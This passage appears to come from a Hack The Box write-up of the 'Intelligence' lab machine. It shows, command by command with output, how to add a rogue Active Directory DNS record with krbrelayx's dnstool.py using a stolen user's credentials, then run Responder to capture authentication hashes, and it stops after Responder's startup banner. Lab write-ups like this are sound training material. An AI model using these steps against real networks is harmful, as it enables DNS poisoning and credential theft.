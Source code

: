 We have a simple script that has a loop to retrieve all records from AD where the name is like web*. It then uses Invoke-WebRequest with the list of names and attempts to authenticate. So we know that we need to add a DNS record that points to us, and then we can capture that authentication request.

## DNS Poisoning

First we can use the Dirk Janm's [krbrelayx](https://github.com/dirkjanm/krbrelayx) toolkit to add our record:

```sh
┌──(root💀kali)-[~/htb/intelligence]
└─# git clone https://github.com/dirkjanm/krbrelayx.git
Cloning into 'krbrelayx'...
remote: Enumerating objects: 98, done.
remote: Total 98 (delta 0), reused 0 (delta 0), pack-reused 98
Receiving objects: 100% (98/98), 65.76 KiB | 1.11 MiB/s, done.
Resolving deltas: 100% (48/48), done.

┌──(root💀kali)-[~/htb/intelligence]
└─# cd krbrelayx

┌──(root💀kali)-[~/htb/intelligence/krbrelayx]
└─# python3 dnstool.py -u 'intelligence.htb\Tiffany.Molina' -p '<HIDDEN>' -a add -r 'webpencer.intelligence.htb' -d 10.10.14.251 10.10.10.248
[-] Connecting to host...
[-] Binding to host
[+] Bind OK
/root/htb/intelligence/krbrelayx/dnstool.py:241: DeprecationWarning: please use dns.resolver.Resolver.resolve() instead
  res = dnsresolver.query(zone, 'SOA')
[-] Adding new record
[+] LDAP operation completed successfully
```

Above we've used the dnstool script to add a record called webpencer, we point that entry to our Kali IP of 10.10.14.251.

## Responder

Now we start responder and wait for that five minute cycle for the script to reach out to us and try to authenticate:

```text
┌──(root💀kali)-[~/htb/intelligence]
└─# responder -I tun0 -A
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|
           NBT-NS, LLMNR & MDNS Responder 3.0.6.0
  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
  To kill this script hit CTRL-C

[+] Poisoners:
    <SNIP>
[+] Servers:
    <SNIP>
[+] HTTP Options:
    <SNIP>
[+] Poisoning Options:
    Analyze Mode               [ON]
    <SNIP>
[+] Generic Options:
```